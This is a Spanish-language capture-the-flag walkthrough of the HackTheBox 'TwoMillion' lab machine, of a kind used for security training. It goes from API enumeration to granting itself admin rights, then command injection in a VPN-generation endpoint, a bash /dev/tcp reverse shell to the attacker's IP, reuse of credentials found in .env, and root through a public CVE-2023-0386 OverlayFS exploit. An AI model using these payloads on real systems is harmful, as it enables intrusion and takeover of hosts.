




Como siempre, empezamos la máquina haciendo un escaneo de todos puertos de TCP.

```
nmap -p- -sS --min-rate 5000 -Pn -n 10.129.181.190

Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:24 CEST
Nmap scan report for 10.129.181.190
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```

Los puertos abiertos en la máquina son el `22` y el `80`. Vamos a comprobar qué servicios están corriendo en ellos.

```
nmap -p 22,80 -sVC --min-rate 5000 10.129.181.190 -oN services.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:27 CEST
Nmap scan report for 10.129.181.190
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

Como en el puerto `80` hay un servicio web, vamos a intentar detectar las tecnologías que este está empleando.

```
whatweb 10.129.181.190

http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
ERROR Opening: http://2million.htb/ - no address for 2million.htb
```

Nos da un error debido a que no puede resolver el dominio `2million.htb`, para ligar este dominio a la IP de la máquina, debemos añadir la línea `[ip] 2million.htb` al archivo `/etc/hosts`

```
echo "10.129.181.190 2million.htb" >> /etc/hosts
```

Ahora podemos volver a ejecutar el comando.

```
whatweb 10.129.181.190

http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
http://2million.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.129.181.190], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```

Recibimos información que, aunque no es útil en este momento, podría serlo más adelante.

Al entrar a la página nos damos cuenta de que es la antigua página del propio **HackTheBox**.



Antes, para registrarte a esta plataforma, debías vulnerar la propia página. Para ello, vamos al apartado de `Join HTB`.



Dentro vemos un campo `Invite Code`. Miremos el código fuente de la página `/invite`.

```html
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
<script defer>
    $(document).ready(function() {
        $('#verifyForm').submit(function(e) {
            e.preventDefault();

            var code = $('#code').val();
            var formData = { "code": code };

            $.ajax({
                type: "POST",
                dataType: "json",
                data: formData,
                url: '/api/v1/invite/verify',
                success: function(response) {
                    if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                        // Store the invite code in localStorage
                        localStorage.setItem('inviteCode', code);

                        window.location.href = '/register';
                    } else {
                        alert("Invalid invite code. Please try again.");
                    }
                },
                error: function(response) {
                    alert("An error occurred. Please try again.");
                }
            });
        });
    });
</script>
```

A priori no parece haber nada interesante, sin embargo, hay mas código en archivos externos como por ejemplo el script en `/js/inviteapi.min.js`.

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

Podemos ver un código ofuscado, lo cual es una técnica para hacer el código ininteligible. Para desofuscarlo, podemos simplemente pasarle el codigo a **ChatGPT** y pedirle que nos muestre el código sin ofuscar. El resultante es el siguiente.

```javascript
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```

En la función `makeInviteCode`, podemos ver una ruta `/api/v1/invite/how/to/generate`. Parece interesante así que vamos a hacerle una petición con curl.

```
curl -sX POST 2million.htb/api/v1/invite/how/to/generate | jq

{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

En el campo `data` parece haber un mensaje enctiptado mediante `ROT13`, que consiste en mover todas las letras 13 posiciones en el abecedario. Para descifrar el mensaje rápidamente podemos hacer uso de la página [rot13.com](https://rot13.com).

El campo `data` desencriptado es *"In order to generate the invite code, make a POST request to /api/v1/invite/generate"*.

```
curl -sX POST 2million.htb/api/v1/invite/generate | jq

{
  "0": 200,
  "success": 1,
  "data": {
    "code": "R1c0NlItMUhWUkItNDFNQVktT0YzUTc=",
    "format": "encoded"
  }
}
```

El campo code contiene una cadena en `base64`, probablemente sea el `Invite Code`, así que vamos a decodificarlo y a comprobarlo.

```
echo -n "UlFZMkEtOUo2TDEtSU1NN0wtWDJWWlU=" | base64 -d; echo

RQY2A-9J6L1-IMM7L-X2VZU
```


Tras proporcionar el código exitoso nos manda a un panel de registro. Vamos a ingresar unas credenciales cualquiera y, posteriormente, a autenticarnos con ellas.





Después de autenticarnos, entramos a la página principal.


No encontramos nada vulnerable dentro de la página, por lo que investigaremos la api usada anteriormente.

```
curl -v http://2million.htb/api

*   Trying 10.129.181.190:80...
* Connected to 2million.htb (10.129.181.190) port 80 (#0)
> GET /api HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Sun, 29 Sep 2024 10:05:59 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=gfovc1g53rll77brnk4k03tadc; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb left intact
```

Al ejecutar un `curl -v` a la api, obtenemos un código 401 Unauthorized, por lo que podemos intentar utilizar la cookie que hemos obtennido al loguearnos previamente.

```
curl -s http://2million.htb/api -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "/api/v1": "Version 1 of the API"
}
```

Nos da la ruta `/api/v1`, así que vamos a hacerle una solicitud.

```
curl -s http://2million.htb/api/v1 -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Obtenemos un monton de rutas, de entre ellas nos llaman especialmente la atención los relacionados con `admin`.

Primero vamos a comprobar si somos administradores o no.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": false
}
```

Como era de esperar no somos administradores.

La ruta `/api/v1/admin/settings/update` tiene como descripción `"Update user settings"`, esto parece interesante ya que, de no estar protegida, podríamos llegar a cambiar parámetros de nuestro usuario como por ejemplo si somos `admin` o no.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

nos dice que el tipo de dato que le estamos pasando por PUT es invalido, vamos a probar con **json**.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ahora nos dice que falta el campo email, vamos a añadir el email que hemos usado para registrarnos en la página.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Nos pide el campo `is_admin`, vamos a intentar darle el valor `true`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": "true"}' | jq

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Como nos dice que solo puede ser 0 o 1, deducimos que 1 seria el equivalente a `true` y 0 a `false`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": 1}' | jq

{
  "id": 13,
  "username": "delo",
  "is_admin": 1
}
```

No nos da ninguna respuesta concluyente por lo que vamos a comprobar si ahora somos admin haciendo, de nuevo, una solicitud a `/api/v1/admin/auth`.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": true
}
```

La api nos responde que somos administradores. Esto podría permitirnos acceder a otras rutas de la api a las que antes teníamos prohibido el acceso. Por ejemplo la ruta `/api/v1/admin/vpn/generate`.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

Volvemos a recibir el error de tipo de contenido invalido, por lo que una vez mas le pasamos los datos en formato json.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Le pasamos un nombre de usuario cualquiera, por ejemplo el que hemos usado para registrarnos.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo"}'

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...resto de la vpn...
```

Nos genera un archivo de configuración de VPN usando **OpenVPN**, probablemente esté usando por detrás un método como `system` (que ejecuta comandos de la **shell** desde el propio **php**). Posiblemente sea algo similar a esto.

```php
<?php
system("Comando-para-generar-vpn -x " . $nuestro_input . " --parametro");
?>
```

Este código no está sanitizado, lo que quiere decir que podriamos aprovecharnos de ciertos caracteres especiales para introducir un comando malintencionado. Por ejemplo:

Si nosotros mandamos el json `{"username": "delo; whoami #"}`, la linea resultante en php sería la siguiente.

```php
<?php
system("Comando-para-generar-vpn -x delo; whoami # --parametro");
?>
```

Que en bash sería:

```bash
Comando-para-generar-vpn -x delo; whoami # --parametro
```

En esta línea primero se ejecutaria el `Comando-para-generar-vpn`, pero al llegar al `;`, bash dará esa línea por acabada y ejecutará lo que hay justo después: el comando `whoami`.

A demás, para asegurarnos de que no hay nada a la derecha que pueda modificar el comportamiento del comando que queremos ejecutar, pondremos un `#` para comentar el resto de la línea, lo que hará que bash lo ignore completamente.

Vamos a probar esto en la api.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; whoami #"}'

www-data
```

El campo ussername ha resultado ser vulnerable a una inyección de codigo. No nos muestra la vpn porque probablemente haya dado error ya que prescindía de los últimos argumentos que hemos comentado y la función `system()` no devuelve las respuestas del `stderr`.

Dado que tenemos ejecución remota de comandos, vamos a establecer una **reverse shell** para operar más cómodamente.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; bash -c \"bash -i >& /dev/tcp/10.10.14.48/1234 0>&1\" #"}'
```

Escuchamos por **netcat**.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Una vez nos llega la reverse shell, vamos a hacer el tratamiento de la TTY para trabajar más comodamente (esto es opcional pero bastante recomendable).

```
script /dev/null -c bash
```

Pulsamos `ctrl`+`z`

```
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Vamos a empezar listando los archivos del directorio de la web.

```
ls -la

total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Vemos el archivo `.env`, donde se almacenan las variables de entorno (normalmente claves de base de datos u otros datos sensibles).

```
cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Tenemos unas credenciales de una base de datos. Vamos a ver que usuarios hay en la máquina para ver si se reutilizan las credenciales.

```
grep -e "sh$" /etc/passwd

root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

Hay un usuario `admin`, el mismo que en la base de datos, por lo que vamos a probar a autentificarnos con la contraseña de la base de datos.

```
su admin

Password: SuperDuperPass123
```

La contraseña es correcta, ya podemos visualizar el `user.txt`.

```
cd
cat user.txt
```

Revisando los mails en el directorio `/var/mail`, encontramos un correo que nos da una informacióno muy valiosa.

```
cat /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: goblin <g@blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

En el email se le está comunicando a admin que tienen que actualizar el sistema operativo porque han salido unas cuantas vulnerabilidades en el kernel de linux. Especialmente el de `OverlayFS FUSE`.

Tras una busqueda en google encontramos un artículo que explica como funciona. Podeis echarle un ojo [aquí](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386).

---

### Explicación

*En resumen dice que en versiones del kernel anteriores a la `6.2`, en un mount del tipo overlay al copiar un archivo desde la montura `overlay` al directorio `upper` no comprueba si el propietario de ese archivo es de la máquina actual o no, por ello si pasamos un archivo con `uid=0` (User ID) aunque el root de la máquina no sea el propietario, se copiará a `upper` con el root de la máquina real como propietario. Para explotar esto haremos un sctipt con el bit de `suid` (que permite que se pueda ejecutar código como el usuario dueño del script)*

*Para crear un archivo con `uid=0` sin ser root, hay que hacer uso de un sistema de archivos virtual como un **FUSE**. Con este podremos simular que un archivo tiene un `uid=0` y un `gid=0` (Group ID).*

*Para entender esto mejor, sería recomendable buscar información sobre que es y como funcionan OverlayFS y FUSE*

---

```
uname -r

5.15.70-051570-generic
```

La versión del kernel es menor que `6.2` por lo que podemos intentar explotar la vulnerabilidad. Vamos a clonarnos un exploit de **GitHub**.

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

Para pasarlo a la máquina víctima vamos primero a comprimirlo en zip.

```
zip -r cve.zip CVE-2023-0386
```

Iniciamos un servidor http en python por el puerto 80.

```
python3 -m http.server 80
```

Y nos lo descargamos en la máquina víctima, lo descomprimimos y lo compilamos.

```
wget 10.10.14.48/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```

Como se explica en el `README.md` ejecutamos el `fuse` en segundo plano (con el `&` al final) y luego `exp`

```
./fuse ./ovlcap/lower ./gc &
./exp
```

Ahora ya somos **root**, ya podemos leeer el `root.txt`.

```
cd /root
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.